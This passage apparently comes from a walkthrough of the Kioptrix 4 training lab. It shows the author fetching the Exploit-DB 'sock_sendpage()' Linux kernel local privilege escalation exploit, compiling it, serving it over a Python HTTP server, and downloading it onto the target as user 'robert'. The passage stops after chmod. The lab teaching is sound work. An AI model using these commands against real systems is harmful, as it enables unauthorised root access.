 A quick Google search leads us to the `Linux Kernel 2.4/2.6 - 'sock_sendpage()' Local Privilege Escalation (3)` [Exploit-DB entry](https://www.exploit-db.com/exploits/9641).

We'll grab the linked archive in the Exploit-DB entry and then compile it for our target system.

`$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/9641.tar.gz`

```
--2020-01-11 12:18:19--  https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/9641.tar.gz
Resolving github.com (github.com)... 52.64.108.95
Connecting to github.com (github.com)|52.64.108.95|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/9641.tar.gz [following]
--2020-01-11 12:18:20--  https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/9641.tar.gz
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3871 (3.8K) [application/octet-stream]
Saving to: ‘9641.tar.gz’

9641.tar.gz             100%[============================>]   3.78K  --.-KB/s    in 0.001s  

2020-01-11 12:18:20 (3.15 MB/s) - ‘9641.tar.gz’ saved [3871/3871]
```

`$ tar xf 9641.tar.gz`

`$ cd linux-sendpage3`

`$ gcc -m32 -Wall exploit.c -o exploit`

`$ python -m SimpleHTTPServer`

And on the target machine:

`robert@Kioptrix4:/dev/shm$ wget 192.168.1.30:8000/exploit`

```
--07:15:08--  http://192.168.1.30:8000/exploit
           => `exploit'
Connecting to 192.168.1.30:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16,420 (16K) [application/octet-stream]

100%[======================>] 16,420        --.--K/s             

07:15:08 (51.73 MB/s) - `exploit' saved [16420/16420]
```

`robert@Kioptrix4:/dev/shm$ chmod +x exploit`

